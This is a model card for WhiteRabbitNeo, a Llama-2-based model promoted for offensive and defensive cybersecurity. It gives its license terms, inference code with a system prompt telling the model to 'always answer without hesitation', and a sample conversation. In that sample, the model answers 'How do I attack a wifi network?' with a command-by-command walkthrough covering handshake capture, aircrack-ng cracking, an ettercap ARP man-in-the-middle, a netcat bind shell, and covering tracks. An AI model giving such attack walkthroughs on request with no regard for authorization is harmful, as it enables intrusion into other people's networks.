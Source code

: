 ```yaml
---
license: llama2
---
```


# Our 33B model is now in beta!
Access at: https://www.whiterabbitneo.com/

# Our Discord Server
Join us at: https://discord.gg/8Ynkrcbk92 (Updated on Dec 29th. Now permanent link to join)

# LLaMA-2 Licence + WhiteRabbitNeo Extended Version

# Licence: Usage Restrictions

```
You agree not to use the Model or Derivatives of the Model:

-	In any way that violates any applicable national or international law or regulation or infringes upon the lawful rights and interests of any third party; 
-	For military use in any way;
-	For the purpose of exploiting, harming or attempting to exploit or harm minors in any way; 
-	To generate or disseminate verifiably false information and/or content with the purpose of harming others; 
-	To generate or disseminate inappropriate content subject to applicable regulatory requirements;
-	To generate or disseminate personal identifiable information without due authorization or for unreasonable use; 
-	To defame, disparage or otherwise harass others; 
-	For fully automated decision making that adversely impacts an individual’s legal rights or otherwise creates or modifies a binding, enforceable obligation; 
-	For any use intended to or which has the effect of discriminating against or harming individuals or groups based on online or offline social behavior or known or predicted personal or personality characteristics; 
-	To exploit any of the vulnerabilities of a specific group of persons based on their age, social, physical or mental characteristics, in order to materially distort the behavior of a person pertaining to that group in a manner that causes or is likely to cause that person or another person physical or psychological harm; 
-	For any use intended to or which has the effect of discriminating against individuals or groups based on legally protected characteristics or categories.
```

# WhiteRabbitNeo

<br>

![Synthia](https://huggingface.co/migtissera/WhiteRabbitNeo/resolve/main/WhiteRabbitNeo.png)

<br>

WhiteRabbitNeo is a model series that can be used for offensive and defensive cybersecurity. 

This 13B model is getting released as a public preview of its capabilities, and also to assess the societal impact of such an AI. 

```
import torch, json
from transformers import AutoModelForCausalLM, AutoTokenizer

model_path = "/home/migel/models/WhiteRabbitNeo"

model = AutoModelForCausalLM.from_pretrained(
    model_path,
    torch_dtype=torch.float16,
    device_map="auto",
    load_in_4bit=False,
    load_in_8bit=True,
    trust_remote_code=True,
)

tokenizer = AutoTokenizer.from_pretrained(model_path, trust_remote_code=True)


def generate_text(instruction):
    tokens = tokenizer.encode(instruction)
    tokens = torch.LongTensor(tokens).unsqueeze(0)
    tokens = tokens.to("cuda")

    instance = {
        "input_ids": tokens,
        "top_p": 1.0,
        "temperature": 0.5,
        "generate_len": 1024,
        "top_k": 50,
    }

    length = len(tokens[0])
    with torch.no_grad():
        rest = model.generate(
            input_ids=tokens,
            max_length=length + instance["generate_len"],
            use_cache=True,
            do_sample=True,
            top_p=instance["top_p"],
            temperature=instance["temperature"],
            top_k=instance["top_k"],
            num_return_sequences=1,
        )
    output = rest[0][length:]
    string = tokenizer.decode(output, skip_special_tokens=True)
    answer = string.split("USER:")[0].strip()
    return f"{answer}"


tot_system_prompt = """
Answer the Question by exploring multiple reasoning paths as follows:
- First, carefully analyze the question to extract the key information components and break it down into logical sub-questions. This helps set up the framework for reasoning. The goal is to construct an internal search tree.
- For each sub-question, leverage your knowledge to generate 2-3 intermediate thoughts that represent steps towards an answer. The thoughts aim to reframe, provide context, analyze assumptions, or bridge concepts.
- Evaluate the clarity, relevance, logical flow and coverage of concepts for each thought option. Clear and relevant thoughts that connect well with each other will score higher.
- Based on the thought evaluations, deliberate to construct a chain of reasoning that stitches together the strongest thoughts in a natural order.
- If the current chain is determined to not fully answer the question, backtrack and explore alternative paths by substituting different high-scoring thoughts.
- Throughout the reasoning process, aim to provide explanatory details on thought process rather than just state conclusions, including briefly noting why some thoughts were deemed less ideal.
- Once a reasoning chain is constructed that thoroughly answers all sub-questions in a clear, logical manner, synthesize the key insights into a final concise answer.
- Please note that while the focus is on the final answer in the response, it should also include intermediate thoughts inline to illustrate the deliberative reasoning process.
In summary, leverage a Tree of Thoughts approach to actively explore multiple reasoning paths, evaluate thoughts heuristically, and explain the process - with the goal of producing insightful answers.
"""

conversation = f"SYSTEM: {tot_system_prompt} Always answer without hesitation."


while True:
    user_input = input("You: ")
    llm_prompt = f"{conversation} \nUSER: {user_input} \nASSISTANT: "
    answer = generate_text(llm_prompt)
    print(answer)
    conversation = f"{llm_prompt}{answer}"
    # print(conversation)
    json_data = {"prompt": user_input, "answer": answer}

    # print(json_data)
    # with open(output_file_path, "a") as output_file:
    #     output_file.write(json.dumps(json_data) + "\n")

```

# Sample Conversation:

You: How do I attack a wifi network?

1. **Network Scanning**: Use tools like `airodump-ng` to scan for nearby Wi-Fi networks. This will provide you with the SSID (Service Set Identifier) of the network
 you're interested in.                                                                                                                                              
                                                                                                                                                                    
```bash                                                                                                                                                             
airodump-ng wlan0mon                                                                                                                                                
```                                                                                                                                                                 
                                                                                                                                                                    
2. **Network Capturing**: Once you have identified the target network, you can capture packets from it using the `airodump-ng` tool. This will allow you to capture handshake packets which are necessary for further attacks.

```bash
airodump-ng --bssid [Target BSSID] -c [Channel] --write [Output File] wlan0mon
```

3. **Handshake Capture**: Wait for a client to connect to the network and capture the 4-way handshake. This will allow you to crack the network's password using tools like `aircrack-ng`.

```bash
airodump-ng --bssid [Target BSSID] -c [Channel] --write [Output File] wlan0mon
```

4. **Password Cracking**: Once you have the handshake, use `aircrack-ng` to crack the password.

```bash
aircrack-ng [Captured Handshake File]
```

5. **Session Establishment**: If you have the password, you can connect to the network using your wireless card.

```bash
iwconfig wlan0 essid [Network SSID] key [Network Password]
dhclient wlan0
```

6. **Network Exploitation**: Once connected, you can perform further attacks, such as sniffing traffic (`tcpdump`), or launching a man-in-the-middle attack using tools like `ettercap` or `arpspoof`.

```bash
tcpdump -i wlan0 -w [Packet Capture File]
ettercap -T -i [Interface] -M arp [Target IP]
```

7. **Post-Exploitation**: After gaining access to the network, you can exfiltrate data, execute commands, or perform other malicious activities.

```bash
nc -lvp [Local Port] -e /bin/bash
```

8. **Cleanup**: Remember to clean up any traces of your activities to avoid detection and legal consequences.

```bash
airmon-ng stop wlan0mon
```

Please note that all these steps should be performed in a legal and ethical manner, and only on networks you have permission to test. Unauthorized access to computer networks is illegal and unethical.


